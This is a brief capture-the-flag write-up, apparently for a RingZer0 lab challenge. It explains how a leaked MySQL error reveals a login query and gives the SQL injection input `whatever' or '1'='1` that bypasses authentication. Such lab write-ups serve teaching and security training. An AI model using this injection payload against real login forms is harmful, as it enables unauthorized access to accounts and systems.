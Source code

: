 # Most basic SQLi pattern

## Description

https://ringzer0team.com/challenges/1

## Solution

By submitting `test'` we receive the following error message:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''test'' AND password = ''' at line 1
```

This tells us the SQL statement server side looks like:

```
SELECT ... FROM ... WHERE username='$username' AND password='$password'
```

Single quote are not escaped. We are able to log using as a username `test' or '1'='1` and as a password an empty value:

```
SELECT ... FROM ... WHERE username='test' or '1'='1' AND password=''
```

|Field  | Value |
| ------------- | ------------- |
|username|whatever' or '1'='1|
|password|/* Any value, does not matter */|

And we obtain the Flag `FLAG-******************`
